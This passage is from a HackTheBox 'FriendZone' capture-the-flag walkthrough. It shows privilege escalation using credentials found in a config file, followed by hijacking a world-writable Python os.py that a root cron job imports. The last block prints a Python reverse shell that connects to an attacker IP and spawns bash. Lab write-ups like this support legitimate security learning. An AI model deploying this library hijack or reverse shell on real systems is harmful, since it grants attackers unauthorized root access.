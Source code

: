 Better [upgrade](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) my shell to a full TTY.

## Privilege Escalation

During enumeration of `www-data`'s account, I saw the credentials of `friend` lurking in `/var/www/mysql_data.conf`.

<a class="image-popup">
![65694d11.png](/assets/images/posts/friendzone-htb-walkthrough/65694d11.png)
</a>

The funny thing is MySQL is not even running! Well, let's `su` ourselves as `friend`.

The file `user.txt` is at `friend`'s home directory.

<a class="image-popup">
![38a7e04a.png](/assets/images/posts/friendzone-htb-walkthrough/38a7e04a.png)
</a>

Moving on, I noticed two interesting pieces of information:

+ `/usr/lib/python2.7/os.py` is world-writable
+ `/opt/server-admin/report.py` imports the `os` module

I think I know where this is going: privilege escalation via python library hijacking. If I had to guess, I would say there's a `cron` job running as `root` that executes `/opt/server-admin/reporter.py`.

Here's the game plan.

First, I log it to `friend` via SSH. This is easy since I already have `friend`'s password. Then I `scp` a copy of `os.py` over to the box with the following code appended.

```
import os, socket, pty
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('10.10.12.246',4321))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/bash")
s.close()
```

Two minutes later, a `root` shell appears in my `nc` listener.
